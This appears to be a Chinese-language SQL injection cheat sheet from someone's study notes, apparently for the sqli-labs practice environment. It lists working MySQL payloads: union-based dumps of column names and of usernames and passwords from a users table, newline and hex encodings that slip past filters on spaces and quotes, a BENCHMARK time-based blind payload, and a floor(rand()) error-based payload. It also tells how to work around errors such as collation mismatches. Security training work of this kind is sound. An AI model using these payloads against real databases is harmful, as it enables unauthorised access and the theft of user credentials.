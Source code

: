   id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' --+ //指定爆security库users表的所有列

  id=-1' union select 1,2,group_concat(`id`,':',`username`,':',`password`) from users --+  //爆当前数据库users表里id username password 列的数据 不加`也可

  ```

  **报错 Illegal mix of collations for operation 'UNION'**

  **此类问题是由于UNION Mysql的Table的时候对应的字段Collation字符序不同导致的**

  **解决方法就是在grounp前面加一个hex转一下**

  ```sql

  id=-1%0aunion%0aselect%0a1,2,hex(group_concat(table_name))%0afrom%0ainformation_schema.tables%0awhere%0atable_schema%0alike%0adatabase()

  //查当前数据库的所有表

  id=-1%0aunion%0aselect%0a1,2,hex(group_concat(column_name))%0afrom%0ainformation_schema.columns%0awhere%0atable_schema%0alike%0adatabase()%0a|| %0atable_name%0alike%0a0x73656565656563726574  

  //如果禁用了引号，那么就可以用16进制进行绕过

  ```

  **报错 Subquery returns more than 1 row**

  **在 SQL 查询中使用的子查询返回了多个结果行，而该子查询在上下文中只能返回一个单独的结果**

  **通常是在盲注的if子查询里面，涉及到直接select length(table_name)**

  **解决方法是在length前面加一个max聚合函数，因为我们只关心这表的长度而不是内容，max会返回一个最大值**

  ```sql

  action=3)%0aOR%0aIF((SELECT%0amax(length(table_name))%0afrom%0ainformation_schema.tables%0awhere%0atable_schema%0alike%0adatabase())%0alike%0a1,%0aBENCHMARK(100000000,%0a1),%0a1)%0aOR%0a(3

  ```

  -->[SQL注入](https://blog.csdn.net/qq_44159028/article/details/114325805?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522170324918116800180669201%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=170324918116800180669201&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-2-114325805-null-null.142^v96^pc_search_result_base7&utm_term=sql%E6%B3%A8%E5%85%A5&spm=1018.2226.3001.4187)<--

- ### **报错注入流程：（and --- 或者 union select --- 或者 or ---）**

  #### **group by 重复键冲**

  ```sql

  id=1'and/**/(select/**/1/**/from/**/(select/**/count(*),concat((select/**/database()/**/from/**/information_schema.tables/**/limit/**/0,1),floor(rand()*2))x/**/from/**/information_schema.tables/**/group/**/by/**/x)a)#

  //查当前数据库

  ```
